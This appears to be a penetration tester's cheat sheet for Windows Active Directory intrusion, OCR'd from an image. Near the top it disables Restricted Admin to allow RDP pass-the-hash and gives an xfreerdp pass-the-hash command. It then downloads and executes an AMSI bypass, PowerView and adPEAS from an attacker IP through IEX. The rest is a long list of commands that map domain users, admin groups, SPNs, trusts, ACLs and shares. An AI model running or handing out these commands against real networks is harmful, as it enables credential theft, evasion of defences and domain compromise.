     ********
    MIGHT NEED TO RUN UNDER DOMAIN USER CONTEXT - impersonate token, mimikatz/rubeus PTH, migrate, etc.
            //initiate domain login for enumeration:
                New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
                proxychains xfreerdp /u:user /pth:a71ad837cd4a6fcd8..... /v:172.16.167.160 /cert-ignore /size:2800x1900 /scale:180
    ********

    (new-object system.net.webclient).downloadstring('http://192.168.49.121/amsi.txt') | IEX
    (new-object system.net.webclient).downloadstring('http://192.168.49.121/PowerView.ps1') | IEX
    (new-object system.net.webclient).downloadstring('http://192.168.49.121/adPEAS.ps1') | IEX

    //Initial Native Enum:
        net user
        net user /domain
        net group "Domain Computers" /domain
        net group "Domain Controllers" /domain
        net localgroup
        net group /domain
        net localgroup [groupname]
        net group [groupname] /domain

    //***View all SPNs:
        setspn -T <domain> -Q */*
        Get-NetUser -SPN

    //**Enum & BloodHound Collection with adPEAS.ps1:
        Invoke-adPEAS -scope All -Outputfile ADPEAS.txt
        //AND: Invoke-adPEAS -scope GPOLocalGroup -Outputfile ADPEAS2.txt
        //Another domain:  Invoke-adPEAS -scope All -domain 'comply.com' -Outputfile ADPEAS3.txt

    //##Manual PowerView.ps1 Enumeration:
        get-domain
        Get-ForestGlobalCatalog
        Get-DomainUser | Out-File -FilePath .\DomainUsers.txt
        Get-DomainUser | select -ExpandProperty cn
        Get-DomainComputer
        #Domains in Current Forest:  Get-ForestDomain
        Get-DomainGroup
        Get-DomainGroup | Out-File -FilePath .\DomainGroup.txt
        Get-DomainGroup *admin* -Properties samaccountname
        Get-DomainGroup *admin* -Properties samaccountname | Get-DomainGroupMember
        Get-NetGroupMember "Domain Admins" -recurse
        Get-NetGroup -GroupName "Domain Admins" -FullData
        Get-NetGroupMember "Enterprise Admins" -recurse
        Get-DomainTrust
        Get-ForestTrust
        Get-NetGPOGroup -Verbose
        Get-NetOU
        Get-NetGPO
        Find-DomainShare -ExcludeStandard -ExcludePrint -ExcludeIPC -CheckShareAccess
        Get-DomainOU -FullData
            #Computers in an OU:  Get-DomainOU -name Servers | %{ Get-DomainComputer -SearchBase $_.distinguishedname } | select dnshostname
        Find-InterestingDomainAcl | select identityreferencename,activedirectoryrights,acetype,objectdn | ?{$_.IdentityReferenceName -NotContains "DnsAdmins"} | ft
        Get-NetLoggedon -ComputerName <computer-name>          //need admin
        Get-LastLoggedOn -ComputerName <computer-name>       //need admin and registry 
